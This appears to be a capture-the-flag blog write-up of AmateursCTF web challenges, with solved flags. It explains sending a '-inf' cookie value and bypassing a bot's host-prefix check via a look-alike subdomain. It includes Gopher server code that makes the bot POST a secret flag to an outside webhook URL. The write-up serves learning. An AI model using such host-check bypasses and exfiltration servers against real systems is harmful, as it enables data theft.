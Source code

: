 ```yaml
---
layout: post
title: AmateursCTF Web Writeup
tags: [ctf, ctf writeup, ctf web]
---
```


[AmateursCTF](https://ctf.amateurs.team/)  
[Event on CTFtime](https://ctftime.org/event/1983)

3 web challenge writeups in this post:
- [wait-an-eternity](#wait-an-eternity)
- [go-gopher](#go-gopher)

## wait-an-eternity

- Description: 
> My friend sent me this website and said that if I wait long enough, I could get and flag! Not that I need a flag or anything, but I've been waiting a couple days and it's still asking me to wait. I'm getting a little impatient, could you help me get the flag?
- Author: voxal
- Entry point: [waiting-an-eternity.amt.rs](https://waiting-an-eternity.amt.rs/)

### First eternity

The webpage just had text "just wait an eternity". When inspect the request, there is a "Refresh" header with a huge value and url with a secret code.

![First eternity](/assets/image/amateursctf-web-writeup/first-eternity.png)

### Another eternity

Visit the url in the "Refresh" header, it shows a page saying "welcome. please wait another eternity.".

Inspect the request, it sets a cookie "time" with a value appears to be the current timestamp like `1690326049.1573777`. With the cookie set, refresh the page, and the page shows text like "you have not waited an eternity. you have only waited 228.13574051856995 seconds". The time mentioned in the message appears to be the difference between the current timestamp and the timestamp in the cookie.

Sets the cookie to a large value, it says have only waited a large negative number of seconds. Sets the cookie to a negative value, it says have waited a large number of seconds, but there is still no flag.

The message told to wait an eternity, but how long is an eternity? The internet says the definitions of eternity is "[infinite time](https://www.dictionary.com/browse/eternity)", "[time that never ends](https://dictionary.cambridge.org/dictionary/english/eternity)" or "a very long time". Hmm, how long the website would consider to be an eternity? Look up gunicorn that appears to be the web server according to the response header, the website is running Python. In Python, a number (except `-inf`) minus `-inf` would be `inf`. So, if the cookie value is `-inf`, the number of seconds have waited would be `inf`, and website would consider it to be an eternity.

![Another eternity](/assets/image/amateursctf-web-writeup/another-eternity.png)

After two eternities, I got the flag:

```
amateursCTF{im_g0iNg_2_s13Ep_foR_a_looo0ooO0oOooooOng_t1M3}
```

#### Speculation

The web server is probably taking value from the cookie, and use `float()` to convert it to a float, thus `float('-inf')` would be float `-inf`. Number of seconds waited is calculated by subtracting the float value from the current timestamp. (Actually, yes, can confirm with the [source code](https://github.com/les-amateurs/AmateursCTF-Public/blob/b9b40a55969e3e1553ed14e66bb460a9370db509/2023/web/waiting-an-eternity/main.py#L18))

## go-gopher

This challenge was cheesed with subdomains or certain domain names because it only checks the host prefix. There is a revenge challenge [gopher-revenge](#gopher-revenge).

- Description:
> psst... i know flag sharing isn't allowed, and i found this page where someone seems to be recieving flags from someone else. can you somehow find a way to hijack this site so it gives me flags? thanks.
- Author: voxal
- Entry point:
  - gopher://amt.rs:31290/
  - [gopher-bot.amt.rs](https://gopher-bot.amt.rs/)
- Downloads:
  - [bot.go](https://amateurs-prod.storage.googleapis.com/uploads/7c93488d980366dd6255b08e1bb8ac751565508920151011276c964116df5479/bot.go)
  - [main.go](https://amateurs-prod.storage.googleapis.com/uploads/b652421619610ac09116d516ac4f659ac95d73402048c96e29cfb2ad183104f7/main.go)

### The challenge

Submit and Visit function for bot

```go
func Submit(w http.ResponseWriter, r *http.Request) {
	r.ParseForm()
	u, err := url.Parse(r.Form.Get("url"))
	if err != nil || !strings.HasPrefix(u.Host, "amt.rs") {
		w.Write([]byte("Invalid url"))
		return
	}
	w.Write([]byte(Visit(r.Form.Get("url"))))
}
func Visit(url string) string {
	fmt.Println(url)
	res, err := gopher.Get(url)
	if err != nil {
		return fmt.Sprintf("Something went wrong: %s", err.Error())
	}
	h, _ := res.Dir.ToText()
	fmt.Println(string(h))
	url, _ = strings.CutPrefix(res.Dir.Items[2].Selector, "URL:")
	fmt.Println(url)
	_, err = http.Post(url, "text/plain", bytes.NewBuffer(flag))
	if err != nil {
		return "Failed to make request"
	}
	return "Successful visit"
}
```

The bot will make Gopher request to the url provided, extract the URL from the selector of the 3rd item (at index 2) in the response, and make a POST request to the URL with the flag.

The bot does restrict the host of the Gopher url to start with `amt.rs`, however this can be easily bypassed with subdomains like `gopher://amt.rs.cjxol.com:31290/`. The the server can response with my URL in the relative position, the bot would make a POST request to my URL with the flag. The URL for the POST request is not restricted.

![go-gopher flag](/assets/image/amateursctf-web-writeup/go-gopher-flag.png)

Here is my Gopher server code:
```go
package main
import (
        "fmt"
        "log"
        "git.mills.io/prologic/go-gopher"
)
func hello(w gopher.ResponseWriter, r *gopher.Request) {
        w.WriteInfo("Hello!")
        w.WriteInfo("again")
        w.WriteItem(&gopher.Item{
                Selector:       "https://webhook.site/[reducted]",
        })
        fmt.Println("hello")
}
func main() {
        gopher.HandleFunc("/", hello)
        log.Fatal(gopher.ListenAndServe("0.0.0.0:31337", nil))
}
```

Here is the Gopher response:
```
iHello!         error.host      1
iagain          error.host      1
        https://webhook.site/[reducted]       ::      31337
.
```

## gopher-revenge

- Description:
  > you guys are going to regret ever crossing me.

  Later added the following clarification/hint due to a few teams with very close solutions fails submitting the correct flag:
  > the flag in "flag.txt" is the exact same flag you need to submit
- Author: voxal

TODO: writeup
